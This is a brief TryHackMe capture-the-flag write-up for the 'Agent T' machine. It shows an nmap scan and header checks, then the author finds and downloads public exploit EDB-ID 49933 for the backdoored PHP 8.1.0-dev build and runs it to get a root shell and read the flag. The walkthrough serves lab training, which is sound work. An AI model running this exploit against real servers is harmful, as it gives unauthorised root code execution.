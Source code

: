 # Agent T - TryHackMe Writeup

**Difficulty:** Easy  
**TL;DR:** Unauthenticated RCE via User-Agent in PHP 8.1.0-dev (EDB-ID:49933) → the flag
---------------------------
## Target
- Machine: `Agent-T`  
- Date: `2025-6-1`  
- Time: 10 min
- Environment: TryHackMe / CTF
---------------------------

## Steps
1. Initial scan:

```bash
└─$ nmap -sV -sC -Pn -T4  agrntt.thm                                     

80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
```

2. Scan the Headers:

```bash
└─$ curl -I http://agentt.thm/
HTTP/1.1 200 OK
Host: 10.10.233.40
Date: Mon, 20 Oct 2025 08:43:32 GMT
Connection: close
X-Powered-By: PHP/8.1.0-dev
Content-type: text/html; charset=UTF-8
```

3. Find Expolit:
```bash
└─$ searchsploit PHP 8.1.0-dev          

PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution        | php/webapps/49933.py

```


### EDB-ID:49933 :
```text 
the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed.
If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
```

4. Donwload the script and change the permission:
```bash
└─$ wget https://www.exploit-db.com/download/49933       

└─$ chmod +x 49933  
```

Run the script and get shell:
```bash
└─$ python3 49933            
Enter the full host url:
http://agentt.thm/

Interactive shell is opened on http://agentt.thm/ 
Can't acces tty; job crontol turned off.
$ id
uid=0(root) gid=0(root) groups=0(root)
```

### The flag :
```bash
$ cat /flag.txt
flag{[REDACTED}
```
